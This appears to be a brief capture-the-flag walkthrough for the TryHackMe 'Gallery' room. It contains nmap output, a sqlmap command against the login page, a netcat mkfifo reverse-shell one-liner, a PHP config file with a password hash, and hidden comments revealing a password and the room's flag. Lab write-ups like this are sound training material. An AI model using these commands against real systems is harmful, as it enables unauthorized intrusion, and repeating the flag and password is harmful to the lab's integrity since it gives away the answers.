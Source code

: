 ```yaml
---
layout: post
title: Tryhackme Room - Gallery 
---
```


ROOM: [Gallery](https://tryhackme.com/room/gallery666)

# Nmap Scan

```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Simple Image Gallery System
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set

```

# Interesting findings ?
- Port 80800 interesting and Running Simple Image Gallery System

## Whats next : bruteforce directories and remember to check the source code: FAILED

```html
<!-- /.social-auth-links -->

      <!-- <p class="mb-1">
        <a href="forgot-password.html">I forgot my password</a>
      </p> -->
 ```


## Whats next : sqlmap the login page: FAILED

```bash

└─$ sqlmap -u http://10.10.52.84/gallery/login.php --form --batch --tamper=between --risk=3 --level=3

```

## Check the Exploit-Db for the CMS name there is an RCE
- [check here](https://www.exploit-db.com/exploits/50214)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```


```bash

<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"XXXXX");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"XXXXX");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```
- Login to the mysql database
- Get the admin hash

## Check /var/backup
- Login as mike
- Pwn the box
<!--- b3stpassw0rdbr0xx -->
<!--- THM{af05cd30bfed67849befd546ef} -->